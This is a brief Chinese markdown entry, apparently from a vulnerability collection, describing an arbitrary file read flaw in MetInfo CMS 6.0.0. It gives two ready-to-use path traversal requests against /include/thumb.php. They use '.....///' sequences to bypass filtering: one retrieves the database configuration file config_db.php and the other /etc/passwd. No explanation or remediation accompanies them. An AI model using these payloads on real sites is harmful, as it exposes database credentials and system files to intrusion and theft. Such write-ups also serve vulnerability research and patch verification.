

### metinfo（米拓）

```
版本信息：6.0.0
```

#### 任意文件读取

读取数据库配置文件

```
/include/thumb.php?dir=.....///http/.....///config/config_db.php
```




读取其它系统文件

```
/include/thumb.php?dir=.....///http/.....///.....///.....///.....///.....////etc/passwd
```


